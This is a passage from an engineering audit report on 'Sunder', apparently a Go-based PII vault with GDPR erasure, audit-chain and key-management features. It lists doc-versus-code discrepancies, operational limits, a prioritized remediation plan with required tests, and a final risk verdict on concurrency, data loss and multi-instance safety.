| "Invalid values ... fail startup with a specific error - a typo can never silently fall back to a default" | `docs/CONFIG.md:135-137` | Every boolean is `os.Getenv(k) == "true"`; `1`/`TRUE`/`yes`/`on` silently mean false, including for `SUNDER_REDIS_FAIL_CLOSED` and `SUNDER_SEARCH_UNLOCK`. An explicitly-empty value silently takes the default | DOCS-7 |
| `user_id` "is deliberately NOT part of the hash (`canonical()` never includes it)" | `docs-site/docs/admin/audit-chain.md:107-113`, duplicated at `internal/audit/audit.go:92-95` | `canonical` includes `e.UserID` for `hash_v >= 2`, and every row sealed since migration 0033 is v2 | DOCS-8 |
| "Search tokens survive a retention wipe"; "Consent decisions survive erasure ... the `granted:false` record stays" | `docs-site/docs/gdpr/rights-and-consent.md:82,89` | `RunRetention` deletes `person_tokens` once nothing live remains; `erasePerson` DELETEs `consents`. `docs/API.md:210-212,250-256` states the opposite, correctly | DOCS-9 |
| Erasure happens "in one transaction"; erasure webhooks "retry until FAILED" | `docs/API.md:224-234`, `docs-site/docs/gdpr/erasure-webhooks.md:7,28,55,57,91` | Cascade erasure is one transaction per person and a partial cascade cannot be retried; a claimed event stuck in `SENDING` is never requeued (no reaper, no `claimed_at`) and never audited; delivery is at-least-once with no idempotency guidance | DOCS-10, DOCS-3, GDPR-ERASURE-4 |
| "No verifiable credentials/selective disclosure"; "the privacy portal remains v2" (deliberate non-goals) | `docs/THREAT-MODEL.md:33-40`, `docs/DESIGN.md:197-198` | Both ship: `internal/service/predicates.go` + `share_predicates` in the spec, and `internal/api/portal.go` with ~9 routes including a fully anonymous `POST /portal/api/start` | DOCS-11 |
| Instance throughput "is bounded by storage commit latency (~460 audited ops/s)" | `README.md:75-80` | Retracted by the project itself: `docs/THREAT-MODEL.md:92-101` "Corrected 2026-08-25" measures the advisory lock as the ceiling (117/124 samples in `Lock/advisory`) | DOCS-11 |
| Backup/DR: three state classes, "database and key material are one unit" | `docs/RUNBOOK-BACKUP-DR.md:5-15`, `docs-site/docs/admin/backup-dr.md` | A fourth class exists — the file-vault object store — and is in no backup, restore or spot-check step. A DB+keystore restore verifies green with every file unrecoverable | DOCS-14 |
| A truncated object is "reported as an error, never as a successful short read" | `docs-site/docs/concepts/file-vault.md:76-80` | Headers (including `Content-Length`) are written before `Download` runs; the caller gets 200 with a short body and a server-side log line | DOCS-15 |
| `sunder keys retire`: "it no longer matches lookups nor verifies tokens" | `cmd/sunder/main.go:606-607` | Other replicas keep honouring the retired version for up to the 30s `keyRingTTL`; `Invalidate` is process-local | DOCS-12 |
| "All six SDKs wrap the same `/v1/*` surface" | `docs-site/docs/dev/sdks-and-api.md:36-38`, `README.md:130-133` | 7 routes wrapped; every GDPR, tokenization, file, share, link, unlock and admin-audit endpoint is SDK-less, and `phone_suffix`/`user_id` are unreachable | DOCS-13 |
| Retention "wipes the blob, not the person"; the erasure-completeness sweep guarantees "a future migration cannot add [a surviving table] silently" | `docs-site/docs/gdpr/rights-and-consent.md`, `internal/service/erasure_sweep_test.go` doc comment | Discovery keys only on `person_id`/`cid` column names and FKs, so a derived-token table is invisible; `portal_email_throttle` is a live counterexample already in the schema | TESTS-13, GDPR-ERASURE-9 |
| Access/Export answer Article 15 completely | `docs/API.md` DSR sections | `value_tokens`, `shared_records` (recipients), `files` and `person_links` appear in no subject-facing response, and every `tokens.*` audit row is written with no CID, so bucketed reads collapse to `cid=''` and are unmatchable | TOKENS-LOOKUP-7, GAP-2 |
| `SUNDER_FILES_MAX_MB` accepts "1-4096" | `docs/CONFIG.md:234` | Values above 256 are rejected at startup when `SUNDER_FILES_STORAGE=s3` | DOCS-16 |
| The bulk-token unlock is single-use; the keystore "cannot overwrite each other's material" | `unlock.go:1-15`, `docs-site/docs/admin/keys-and-keystores.md:116-119` | Both hold in production but neither is asserted by any test — the guarantees are unprotected against refactoring, not currently broken | TESTS-4, TESTS-5 |

### Undocumented operational limits an operator must know

1. **A claimed erasure webhook is lost, permanently.** `erasure_events` has no `claimed_at` and no reaper; SIGTERM, a client disconnect, or any DB hiccup between the claim commit and `terminal()` strands the row in `SENDING` with no log, no metric and no CLI path back. `sunder retention run` and `sunder dsr deliver` both select `PENDING` only. Until a reaper exists, the only recovery is a manual `UPDATE erasure_events SET status='PENDING' WHERE status='SENDING' AND ...`. (DOCS-3, TESTS-3, QUEUE-WORKER-1)
2. **Rate limits and upload memory multiply by replica count.** Without Redis, `authfail:`, `share-public:`, portal-start and per-client buckets are per-process, so N replicas give N x the configured budget; `SUNDER_FILES_MAX_CONCURRENT_UPLOADS` is likewise per-process, so peak memory is N x (bound x MaxBytes) — and with the S3 driver each in-flight upload is buffered roughly four times over (FILES-STORAGE-2), not once as documented. With Redis, the limiter fails OPEN by default for everything except `portal:`/`claims:`. (AUTHZ-3, FILES-STORAGE-2, TESTS-12)
3. **Key changes take up to 30 seconds to reach a running fleet, in both directions.** Rotation latency is benign; retirement latency is an incident-response window during which a leaked signing key is still honoured. There is no documented way to shorten it other than restarting every replica. (DOCS-12, CONCURRENCY-CORE-4)
4. **`SUNDER_FILES_STORAGE=local` is single-instance-only** and its objects are a separate backup domain from the database. Nothing validates this at startup, nothing in the DR runbook backs it up, and the failure mode on both counts is HTTP 200 with an empty body. (DOCS-4, DOCS-14, DOCS-15)
5. **The advertised 256 MiB file size is unreachable over HTTP.** Global 30s `ReadTimeout`/`WriteTimeout` (`internal/api/server.go:311-317`) apply to every route with no per-route override, and the upload semaphore wait is charged against the same budget. (FILES-STORAGE-5)
6. **Migrations run in one transaction under a blocking advisory lock, before the listener opens, and the chart ships no `startupProbe`.** A migration slower than the liveness budget makes every replica crash-loop indefinitely. Helm's ops CronJobs also apply migrations under `image.opsTag`, a tag set independently of the serving `image.tag`. (OPS-CLI-CONFIG-6, OPS-CLI-CONFIG-5)
7. **Switching `SUNDER_AUDIT_SEALING` async→sync requires stopping ALL replicas first.** Only the first restarted process drains; still-async replicas keep inserting unsealed rows behind it, and those rows are stranded outside the chain. (AUDIT-CHAIN-7, and `docs/CONFIG.md:99-103` states the requirement but nothing enforces or tests it)
8. **`/metrics` is unauthenticated unless `SUNDER_METRICS_TOKEN` is set,** and its series labels carry client ids and per-client lookup-miss volumes. (AUTHZ-6)
9. **Operator CLI mutations are not in the audit chain.** `client create`, `client grant`, `webhook set`, `keys rotate/retire/rekey` and `retention set` append nothing, so the chain does not record who granted an action or changed a webhook target — while `client rotate-secret`, `issuer add/remove` and `bootstrap` do. `sunder bootstrap` additionally mints a non-expiring credential holding `admin.unlock`, and `client grant` prints success for a client id that does not exist. (OPS-CLI-CONFIG-3, -4, -10, AUTHZ-2)
10. **`audit_read_buckets` grows without bound and cannot be deleted** — the guard trigger refuses DELETE and TRUNCATE unconditionally, no prune path exists, and erasure does not reach it. Size this table into storage planning. (AUDIT-CHAIN-8)
11. **A retired `pii-kek` version is cosmetic.** Every decrypt path passes the row's stored `key_id` straight to the engine and never consults the keyring, and `keys rekey` prints "old versions can now be retired" even when it skipped blobs. Destroying the material is the only real retirement, and it is irreversible for anything the sweep skipped. (CRYPTO-7)
12. **Rotating `hmac-email` silently breaks `unique:true` value-token dedup.** `unique_hash` is keyed on the newest `hmac-email` version and is never re-keyed or purged, so post-rotation duplicates can be minted, and a leaked key remains an offline dictionary oracle over stored IBAN/PAN/national-id hashes. (CRYPTO-3, TOKENS-LOOKUP-4)

## 10. Prioritized Remediation Plan

All 116 findings appear exactly once. Findings that share a single fix are grouped into one row listing every id. Complexity is engineering effort for the fix plus its regression test: S (< 1 day), M (1-3 days), L (a week or more, or a migration plus a backfill).

### P0 - fix immediately (data loss, security compromise, corruption)

| Finding | Priority | Complexity | Affected components | Recommended solution | Required tests |
|---|---|---|---|---|---|
| CONCURRENCY-CORE-1, DB-TXN-2, GDPR-ERASURE-3, QUEUE-WORKER-1, OPS-CLI-CONFIG-2, TESTS-3, DOCS-3 | P0 | M | `internal/service/gdpr.go` DeliverPending, migration for `erasure_events`, `internal/api/server.go` worker, `cmd/sunder` retention/dsr | Add `claimed_at TIMESTAMPTZ` to `erasure_events`, set it in the claim UPDATE, add a reaper (`status='SENDING' AND claimed_at < now() - lease`) to `PrunePortal`'s sweep and to `sunder retention run`; run `terminal()`/retry on `context.WithoutCancel` with its own timeout; drain the worker at shutdown; audit every terminal transition; correct the retry-until-FAILED docs | Crash-mid-delivery test (cancel after the claim commit, assert `SENDING`, run reaper, assert redelivery); shutdown-during-processing test; duplicate-delivery test asserting at-least-once is stated and safe |
| GDPR-ERASURE-1, GDPR-ERASURE-2, DB-TXN-7, TOKENS-LOOKUP-2 | P0 | M | `internal/service/rekey.go` rekeyPerson + the `insert` closure, `internal/service/lookup.go` | Re-check the person inside the rekey transaction with `SELECT ... FROM persons WHERE id=$1 AND erased_at IS NULL FOR UPDATE` before writing the blob or re-minting tokens; replace the `COALESCE(...)` staleness guard with an equality check on the full prior blob (or a version/xmin token) so a same-key rewrite is detected; add `erased_at IS NULL` to `Contacts.Lookup` as defence in depth | Held-transaction test: park `rekeyPerson` after its read, run a real `Erase`, release; assert `pii_encrypted IS NULL`, zero `person_tokens`, `Lookup` 404s; concurrent `mergeIntoBlob` test asserting no lost attribute |
| TOKENS-LOOKUP-5, GDPR-ERASURE-6 | P0 | M | `internal/service/oti.go` IssueFull/VerifyFull/shareIntoScope, `internal/service/contacts.go` ensureCID | Move the tombstone check inside the issuing transaction (`FOR UPDATE` on `persons`) and add `AND p.erased_at IS NULL` to `ensureCID` and `shareIntoScope`'s `cids` write; make `erasePerson`'s `UPDATE oti` invalidate outstanding tokens for the person and have `VerifyFull` re-check the tombstone before minting a scope row | Concurrency test: issue an OTI, park `VerifyFull` before `ensureCID`, erase the person, release; assert no new `cids` row and a denied verify. Same shape for `IssueFull` racing erasure |
| DB-TXN-1, TOKENS-LOOKUP-1 | P0 | M | `internal/service/contacts.go` registerTx + Register retry loop, `person_tokens_ident_uq` | Replace `ON CONFLICT DO NOTHING` on the identifier token INSERT with a plain INSERT so 23505 surfaces and the documented retry loop at `contacts.go:237-248` actually runs (the retry then re-probes and dedups onto the winner); keep `DO NOTHING` only for token kinds outside the partial unique index | Barrier-released N=16 concurrent `Register` of one e-mail: exactly one `persons` row, one `email` token, all calls return the same cid |
| AUDIT-CHAIN-1 | P0 | S | `internal/store/migrations` (audit trigger), `internal/audit/audit.go` sealedHead/Verify/Head | Extend `audit_append_only` with an INSERT branch mirroring the `audit_read_buckets` guard added in migration 0033: reject any INSERT that supplies `hash`, `prev_hash` or `chain_seq`, and reject a non-NULL `hash` with a NULL `chain_seq`; make `sealedHead` and `Verify` treat a sealed-looking row with NULL `chain_seq` as a hard verification failure rather than a head candidate | Insert a forged sealed-looking row directly and assert the trigger rejects it; with the trigger disabled, assert `Verify` reports a break and sealing does not wedge |
| OPS-CLI-CONFIG-1, CRYPTO-1 | P0 | S | `internal/crypto/keystore.go` writeKey, `internal/service/keyring.go` EnsureAll, DR runbook | Re-add the loud mint warning at the `writeKey` choke point (the one generation site for the file driver, matching the Vault driver's surviving warning at `keystore.go:231`), including the key name and path, and surface a `sunder_keystore_minted_total` counter so a lost-volume boot is alertable rather than silent | Test asserting a mint on an empty directory logs at warn level and increments the counter; assert no warning when the key already exists |

### P1 - before production

| Finding | Priority | Complexity | Affected components | Recommended solution | Required tests |
|---|---|---|---|---|---|
| DB-TXN-4, GDPR-ERASURE-5 | P1 | M | `internal/service/gdpr.go` SetConsent, `shares.go` Create, `links.go` Link, `portal.go` SetConsent | Move the tombstone resolution inside each transaction with `SELECT ... FROM persons WHERE id=$1 AND erased_at IS NULL FOR UPDATE`, following the correct pattern already used at `contacts.go:585-590`, `files.go:276-283` and `valuetoken.go:385-400`; add `erased_at IS NULL` to the share/link listing queries | Held-transaction test per writer: park the write after the pool read, complete a real `Erase`, release, assert the row did not land and the call errors |
| QUEUE-WORKER-2, DB-TXN-6, CONCURRENCY-CORE-2 | P1 | S | `internal/service/portal.go` claim/reaper, migration 0018's unused `claimed_at` | Write `claimed_at = now()` in the claim UPDATE and key the reaper predicate on `claimed_at < now() - lease` instead of `created_at`, so an aged row is not reap-eligible the instant it is claimed | Test: create a row with an old `created_at`, claim it, run `PrunePortal` immediately, assert the row is still `SENDING` and no duplicate mail is sent |
| QUEUE-WORKER-3, CONCURRENCY-CORE-5 | P1 | M | `internal/api/server.go` Run/shutdown/errCh, `gdpr.go` inline DeliverPending, `portal.go` settle | Give `Server` a `WaitGroup` covering the delivery/sealer/gauge/closer goroutines and wait on it in `shutdown` within the existing 10s budget; settle every claimed row on `context.WithoutCancel` with its own timeout; size `errCh` for both listener senders (or drain it) so neither goroutine blocks forever | Shutdown-during-processing test (queue a slow webhook, cancel, assert `Run` returns and the claim is settled or requeued); goleak in `internal/api` |
| QUEUE-WORKER-4 | P1 | S | `internal/service/portal.go:302-305,320-322`, `internal/service/gdpr.go:722-726,734-736` | Make every status transition a CAS: add `AND status='SENDING'` (and, where relevant, `AND attempts=$n`) to each settle/retry UPDATE and check `RowsAffected`, so a losing worker cannot resurrect a DELIVERED row or mask a requeued one | Two-worker test where the reaper requeues a row mid-flight; assert the late settle is a no-op and the row's terminal state is the reaper's |
| QUEUE-WORKER-5 | P1 | S | `internal/service/portal.go:277-287`, `internal/crypto/pii.go`, `internal/crypto/signer.go`, `internal/crypto/keystore.go` | Classify decrypt/keystore/signer errors: treat transport and unavailability errors (`signer unreachable`, Vault HTTP failures) as transient and requeue with backoff; reserve terminal `FAILED` for authentication failures and malformed payloads | Fault test with an unreachable signer: assert the mail row returns to `PENDING` with an incremented attempt count, not `FAILED` |
| QUEUE-WORKER-6 | P1 | S | `internal/service/portal.go:288-290,372-378`, `internal/service/gdpr.go:707-710,636-639` | Make `NO_MAILER`/`NO_WEBHOOK` a retryable state with a bounded schedule (or leave the row `PENDING` with an attempt cap) so mail and erasure notices queued before the endpoint is registered are delivered once it exists; have the claim SELECT include the retryable state | Test: queue an erasure event with no `_portal`/scope webhook registered, register it, run the sweep, assert delivery |
| AUTHZ-1, TOKENS-LOOKUP-8 | P1 | S | `internal/api/server.go` allow, handlers in `contacts.go`, `gdpr.go`, `oti.go`, `shares.go` | Apply `Server.allow` to every authenticated route rather than a subset — register the limiter as middleware on the v1 mux so a new route is limited by default, and assert coverage in a test rather than by inspection | Route-table test asserting every registered `/v1/*` handler is wrapped by the limiter; per-endpoint 429 test for `attributeGet`, `oti/issue`, `dsr/access` |
| AUTHZ-2, OPS-CLI-CONFIG-4 | P1 | S | `cmd/sunder/main.go` bootstrapCmd, `internal/auth/auth.go` CreateTx, `deploy/provision/provision.sh` | Call `ValidateUnlockGrant` from `CreateTx` (not only `Create`), so every path refuses a non-expiring `admin.unlock`; give `sunder bootstrap` a default TTL and make the provisioning Job set one explicitly | Test asserting `bootstrap` without `-ttl` either sets a bounded expiry or fails; assert `CreateTx` rejects `admin.unlock` with a nil expiry |
| AUTHZ-3, DOCS-7 | P1 | M | `internal/ratelimit/redis.go` failed(), `internal/config/config.go` boolean parsing, `docs/CONFIG.md` | Default `SUNDER_REDIS_FAIL_CLOSED` to true for security buckets (`authfail:`, `share-public:`) regardless of the flag, or invert the default; add a validating `getbool` accepting `true/false/1/0/yes/no/on/off` and rejecting anything else, and make `getenv` distinguish unset from empty | Test: `SUNDER_REDIS_FAIL_CLOSED=1` must error or evaluate true; Redis-outage test asserting `authfail:` and `share-public:` deny |
| AUTHZ-4, DB-TXN-5 | P1 | M | `internal/service/oti.go` VerifyFull, shareIntoScope, stripSharedAttr | Apply the M3 allowlist BEFORE `shareIntoScope` writes, inside the same transaction, so a forbidden attribute is never written; delete `stripSharedAttr` and its post-commit read-modify-write entirely | Test: verify an OTI whose payload carries an attribute the verifier may not read; assert the blob never contained it (check `cid_blob_versions` too) and that a concurrent attribute write is not lost |
| TOKENS-LOOKUP-6 | P1 | M | `internal/service/oti.go` IssueFull, `internal/service/predicates.go`, `internal/api/oti.go` | Require `attributes.read` (and a purpose/consent check) on `oti.issue` for any request carrying attribute values or `share_predicates`, mirroring the gate added to shares | Test: a client with `oti.issue` but not `attributes.read` must be denied an OTI carrying attributes or predicates, and the existing bare-handoff case must still pass |
| CRYPTO-2, TOKENS-LOOKUP-3 | P1 | S | `internal/service/keyring.go` Retire | Purge every token kind derived from the retired key version, not just the base kind: extend the DELETE to `name_phonetic` and `phone_suffix` rows carrying that `key_version` (drive it from the same `mintDerived` kind list so a new derived kind cannot be forgotten) | Test: register with name and phone, rotate and retire `hmac-name`/`hmac-phone`, assert zero rows of every derived kind remain under the retired version |
| CRYPTO-3, TOKENS-LOOKUP-4 | P1 | L | `internal/service/valuetoken.go` validateAndHash, `internal/service/rekey.go` rekeyVaults, `internal/service/keyring.go` Retire, migration for `value_tokens` | Store the `key_version` used for `unique_hash` alongside it, match against every live version (as `tokensAllVersions` does for identifiers), and re-key `unique_hash` in `rekeyVaults` so rotation preserves dedup and retirement removes the oracle | Test: mint a `unique:true` token, rotate `hmac-email`, mint the same value again, assert dedup still collapses; run `Rekey` and assert `unique_hash` changed and dedup still holds |
| CRYPTO-4 | P1 | L | `internal/service/valuetoken.go` Seal/Open/Detokenize, migration + re-seal sweep | Bind `cid` into the AEAD AAD (`"valtok\x00"+scope+"\x00"+token+"\x00"+cid`), as the file vault already does with `dekAAD(fileID, cid)`, and re-seal existing rows in `rekeyVaults`; have `Detokenize` read and check `cid` | Test: re-point a sealed row's `cid` by direct UPDATE and assert `Detokenize` fails rather than returning the value |
| CRYPTO-5 | P1 | L | `internal/service/versions.go` appendVersion/GetVersionAttribute, `internal/crypto/pii.go` | Include a generation discriminator (version id or sequence) in the AAD when storing history blobs so a live blob cannot be substituted for a historical one or vice versa; re-seal on the next rekey pass | Test: copy an older `cid_blob_versions` blob over the live `cids.pii_encrypted` and assert decryption fails |
| AUDIT-CHAIN-2 | P1 | S | `internal/audit/reads.go` closeOneHour hour selection, migration 0033 guards | Make the digest-row guard cover forged `audit.reads_hourly` inserts (only the sealer role may write that action, and the row must reference a sealed bucket set), and have `closeOneHour` treat an orphan digest as a verification failure rather than a reason to skip the hour forever | Insert a forged `reads_hourly` row and assert the closer still seals the hour and `VerifyReadBuckets` reports the forgery |
| AUDIT-CHAIN-3 | P1 | S | `internal/api/audit.go` handleAuditVerify | Call `VerifyReadBuckets` from the HTTP verify endpoint and fold its verdict into the response, so the API and `sunder verify-audit` cannot disagree | Test: poison a read bucket, assert the HTTP endpoint returns `ok:false` with the same reason the CLI prints |
| AUDIT-CHAIN-4 | P1 | S | `internal/audit/anchor.go` Anchor, `cmd/sunder/main.go` anchorCmd | Make anchoring idempotent: skip (and report) when the chain head is unchanged since the last anchor, and export the `.tsr` before the DB INSERT so a failed export cannot leave an unmatched row | Test: anchor twice with no appends in between; assert exactly one anchor row and that `VerifyAnchors` stays clean |
| GDPR-ERASURE-4, TESTS-6, DOCS-10 | P1 | M | `internal/service/gdpr.go` EraseWithCascade, `internal/api/gdpr.go`, `docs/API.md`, `sub-accounts.md` | Record the intended cascade set before erasing anything; tolerate an already-erased/tombstoned parent and continue the children loop so a retry finishes the job; return the parent's erasureID and partial `linked` report with the error and write a `dsr.erase.cascade_incomplete` audit row; document per-person transactions and at-least-once webhook delivery | `TestCascadeErasePartialFailureIsReportedAndResumable` (fail the child's own transaction after the parent commits, assert resumability) |
| DB-TXN-3 | P1 | M | `internal/service/gdpr.go` erasePerson, `internal/service/oti.go` VerifyFull | Impose one lock order everywhere (`cids` → `persons` → `oti`): have `VerifyFull` take the `persons` lock before touching `oti`, or move the `oti` UPDATE after `ensureCID`; document the order next to both functions | Two-goroutine deadlock test with a barrier: erase and verify the same person concurrently, assert neither returns a 40P01 deadlock error |
| OPS-CLI-CONFIG-8, DOCS-2 | P1 | S | `ops/prometheus-alerts.yaml`, `ops/grafana-dashboard.json`, `deploy/helm/sunder/templates/sealer.yaml`, `monitoring.md` | Ship `SunderSealerStalled` (absolute) and `SunderSealerBacklogGrowing` (derivative) rules, a dashboard panel, an alarm-table row, and readiness/liveness probes on the sealer Deployment; make `verify-audit` exit non-zero on a backlog above a threshold in async mode too | CI check asserting every metric the docs call an alarm has a matching rule; test that `verify-audit` fails on a large pending backlog |
| DOCS-1 | P1 | S | `docs/CONFIG.md:75`, `audit-operations.md:53`, `configuration.md:19,90`, `THREAT-MODEL.md:143-147` | Publish the real grant set as copy-pastable SQL (`hash_v`, INSERT on `audit`, UPDATE on `audit_read_buckets.sealed_at`, sequence usage) and qualify the "sealer cannot forge rows" framing | Permissions test: create a role with exactly the documented grants, run `SealOnce` + `CloseReadBuckets`, assert both succeed and `UnsealedCount` reaches zero |
| GAP-1, DOCS-6 | P1 | M | `internal/service/rekey.go` rekeyVaults, `internal/service/portal.go` enqueueMail, `RUNBOOK-ALG-MIGRATION.md`, `rotation-and-rekey.md` | Add `portal_outbox.payload` to `rekeyVaults` (or prune it aggressively and document the exclusion), and honour `c.PII.Algorithm()` for `value_tokens.ciphertext` and `person_record_keys.wrapped` instead of the hard-coded `"aes256gcm"`; replace the runbook's `cids`-only verification with the four-table UNION query | Algorithm-migration test asserting `SELECT DISTINCT alg` over `value_tokens`, `person_record_keys`, `cid_blob_versions` and `portal_outbox` all equal the configured algorithm after `Rekey` |
| DOCS-4, DOCS-14 | P1 | M | `multi-replica.md`, `file-vault.md`, `docs/CONFIG.md`, `RUNBOOK-BACKUP-DR.md`, `backup-dr.md`, Helm chart, `internal/api/server.go` startup warnings | Add the file-vault object store as a fourth state class with backup/restore steps and a download in the restore spot-check; document `local` as single-instance-only; refuse `filesStorage: local` with `replicaCount > 1` in the chart and emit a startup warning like the `SUNDER_SHARES_PUBLIC` one | Two-instance e2e with distinct `FilesDir`s asserting a full-length cross-replica download; DR e2e asserting the restore verification catches a missing object store |
| FILES-STORAGE-5 | P1 | S | `internal/api/server.go:311-317`, `internal/service/files.go` acquireUpload | Give the file routes their own timeouts (per-route `http.TimeoutHandler` or a dedicated mux with a longer Read/Write budget sized from `FilesMaxMB`), and take the upload semaphore before the request body is read so waiting is not charged against the transfer budget | Upload/download test at the configured maximum size asserting completion; test asserting a semaphore wait does not consume the transfer deadline |
| TOKENS-LOOKUP-7, GAP-2 | P1 | M | `internal/service/gdpr.go` accessPerson/Export/ScopeData, `internal/service/valuetoken.go` audit entries, `internal/service/portal.go` Data | Populate `Entry.CID` on every `tokens.*` audit path so bucketed reads land under the subject's cid, and add metadata-only `value_tokens`, `shared_records` (incl. `partner_label`), `files` and `person_links` sections to Access, Export and the portal; keep `detail` out or curate it deliberately and say which | Access test asserting a tokenized value, a standing share's recipient label, a file's metadata and a link appear, and that `tokens.read` events are attributed to the subject's cid |
| GDPR-ERASURE-7 | P1 | S | `internal/service/gdpr.go` RunRetention | Drive the `person_tokens` DELETE from all persons whose last live datum has since disappeared, not only from `wipedCIDs` produced by the current sweep, so a person blocked once is reconsidered on the next run | Test: wipe with a live share present, revoke the share, sweep again, assert the tokens are now deleted and `Lookup` 404s |
| OPS-CLI-CONFIG-3 | P1 | M | `cmd/sunder/main.go` client create/grant, webhook set, keys rotate/retire/rekey, retention set; `internal/auth/auth.go` | Append a chained audit row from every operator mutation, matching the paths that already do (`rotate-secret`, `issuer add/remove`, `bootstrap`); make `auth.CreateTx`/`Create` audit inside the same transaction so a credential cannot be created outside the chain | Test per command asserting exactly one audit row with the expected action and that a failing audit INSERT aborts the mutation |
| OPS-CLI-CONFIG-10, DB-TXN-9 | P1 | S | `cmd/sunder/main.go` clientGrantCmd | Run the whole grant in one transaction, check `RowsAffected` on each UPDATE, and fail loudly for an unknown client id instead of printing success | Test: `client grant` against a non-existent id must exit non-zero and change nothing; a mid-grant failure must leave the credential unchanged |
| OPS-CLI-CONFIG-6 | P1 | S | `deploy/helm/sunder/templates/deployment.yaml` | Add a `startupProbe` with a generous `failureThreshold` so a long migration cannot be killed by the liveness probe, and document the expected first-boot migration time | Chart test asserting a `startupProbe` exists on both branches; a slow-migration rehearsal asserting the pod reaches Ready rather than crash-looping |
| OPS-CLI-CONFIG-7 | P1 | S | `deploy/provision/provision.sh` bootstrap Job | Give the Job the same keystore configuration as the Deployment (Vault env/secret), since the chart supports only Vault and the Job's read-only root filesystem cannot host the file driver's default `./keystore` | Provisioning rehearsal asserting the bootstrap Job completes on a read-only root filesystem with the chart's supported keystore |
| OPS-CLI-CONFIG-5 | P1 | S | `deploy/helm/sunder/templates/cronjobs.yaml` | Pin the ops CronJobs to the serving `image.tag` (or make `opsTag` default to it and warn when they diverge), so a cron pod cannot apply migrations from a different build than the one serving traffic | Chart test asserting the anchor/retention/verify jobs and the Deployment resolve to the same image unless `opsTag` is set explicitly |

---

## 11. Final Verdict

For questions 3–12 the wording is a risk statement: **YES means the bad thing CAN happen.**

| # | Question | Answer | Evidence |
|---|---|---|---|
| 1 | Is the project safe to run in production? | NO | Six HIGH findings are reachable on ordinary traffic without an attacker: DB-TXN-1/TOKENS-LOOKUP-1 (concurrent registration mints two persons for one e-mail), GDPR-ERASURE-1/-2 (`keys rekey` resurrects an erased person's PII blob and search tokens), QUEUE-WORKER-1/DB-TXN-2/GDPR-ERASURE-3 (Article 17 webhooks stranded in `SENDING` forever), AUDIT-CHAIN-1 (one forged row permanently kills sealing and, in sync mode, the whole API). |
| 2 | Is the project safe under concurrent execution? | NO | Two of the three empirically reproduced findings are pure concurrency defects (DB-TXN-1 duplicate persons, DB-TXN-3 Postgres deadlock between `erasePerson` and `OTI.VerifyFull`), and DB-TXN-4 was reproduced landing a consent row on an already-erased person. |
| 3 | Can two goroutines/processes corrupt the same logical operation? | YES | DB-TXN-5/AUTHZ-4 (OTI's allowlist strip is an unlocked post-commit read-modify-write on the attribute blob and loses concurrent writes); TOKENS-LOOKUP-2 (rekey's guarded write cannot see a concurrent `mergeIntoBlob` that keeps the same key_id/alg, silently dropping attributes). |
| 4 | Can data be lost? | YES | QUEUE-WORKER-1/-5/-6 (erasure webhooks stranded, transient signer errors marked FAILED, NO_MAILER terminal), TOKENS-LOOKUP-2 (attributes lost in rekey), DB-TXN-5 (attribute writes lost in the strip), FILES-STORAGE-1 (ambiguous COMMIT makes the reap defer delete the ciphertext of a committed file row). |
| 5 | Can data be duplicated? | YES | DB-TXN-1/TOKENS-LOOKUP-1 (two persons for one identifier, reproduced against real schema), QUEUE-WORKER-2 (zero-length outbox lease → duplicate magic-link mail), AUDIT-CHAIN-4 (duplicate anchor rows), GAP-3 (SDK blind-retries non-idempotent `POST /v1/oti`). |
| 6 | Can operations execute out of order? | YES | DB-TXN-4 and GDPR-ERASURE-5/-6 (tombstone checked on the pool before `BEGIN`, so consent/share/link/OTI writes commit after the erasure that was supposed to sweep them); GDPR-ERASURE-1/-2 and DB-TXN-7 (a rekey pass overwrites an erasure that already committed); AUDIT-CHAIN-5 (a read event committing across the hour boundary lands outside every digest). |
| 7 | Can operations execute twice? | YES | QUEUE-WORKER-2 + QUEUE-WORKER-4 (an aged `portal_outbox` row is reap-eligible the instant it is claimed, and status transitions are unconditional UPDATEs with no compare-and-swap, so a DELIVERED row can be resurrected and re-sent); GAP-3 (a second VALID OTI minted by an SDK retry). |
| 8 | Can operations be skipped? | YES | QUEUE-WORKER-1/DB-TXN-2 (nothing anywhere returns `erasure_events` from SENDING to PENDING — the notice is never sent); GDPR-ERASURE-7 (retention's token cleanup is single-shot, so a person blocked once keeps searchable identifiers forever); AUDIT-CHAIN-2 (a forged `reads_hourly` row makes the closer skip that hour permanently). |
| 9 | Can goroutines leak? | YES | CONCURRENCY-CORE-5 (two listener goroutines share a capacity-1 error channel that nobody drains after shutdown, so the second sender blocks forever); TESTS-10 (test-side leak of two tickers polling a dropped database). |
| 10 | Can workers deadlock? | YES | DB-TXN-3, reproduced: `erasePerson` locks cids→persons→oti while `OTI.VerifyFull` locks oti→persons, producing `ERROR: deadlock detected` with the verify as victim. Postgres aborts one side rather than hanging, so the symptom is a failed request, not a stuck process. |
| 11 | Can retries corrupt state? | YES | GAP-3 (SDK retry mints a second one-time-intent token the caller never learns about); QUEUE-WORKER-4 (a retry's unconditional UPDATE masks a re-queued row); AUDIT-CHAIN-4 (re-anchoring an unchanged head permanently poisons the anchor cross-check); GDPR-ERASURE-1 (a rekey retry re-applies the resurrection). |
| 12 | Can application restart cause corruption or duplication? | YES | QUEUE-WORKER-3/OPS-CLI-CONFIG-2 (neither outbox worker is drained at shutdown; a successful external send is un-acked and, for `erasure_events`, permanently abandoned); AUDIT-CHAIN-7 (an async→sync rolling restart strands rows outside the chain); CRYPTO-1/OPS-CLI-CONFIG-1 (a restart on a lost keystore volume silently mints fresh key material). |
| 13 | Can multiple application instances safely operate simultaneously? | NO | KeyRing's 30s TTL cache and process-local `Invalidate` (CONCURRENCY-CORE-4, DOCS-12), the FileKeystore stale-lock reclaim (CONCURRENCY-CORE-6, CRYPTO-6), the in-process upload semaphore and rate limiter, and `SUNDER_FILES_STORAGE=local` (DOCS-4) all assume one instance. The audit chain itself is the one part proven multi-writer safe (`pg_advisory_xact_lock` on every sync append and every seal). |
| 14 | Are database transaction boundaries correct? | PARTIALLY | Most paths are correct — every `Begin` has a deferred Rollback, audit `AppendTx` rides inside the business transaction, and `contacts.go`, `files.go`, `valuetoken.go` re-check the tombstone under `FOR UPDATE` — but DB-TXN-4/-8, GDPR-ERASURE-4/-5/-6, AUTHZ-4 and OPS-CLI-CONFIG-10 put decisive reads or writes outside the transaction they belong to. |
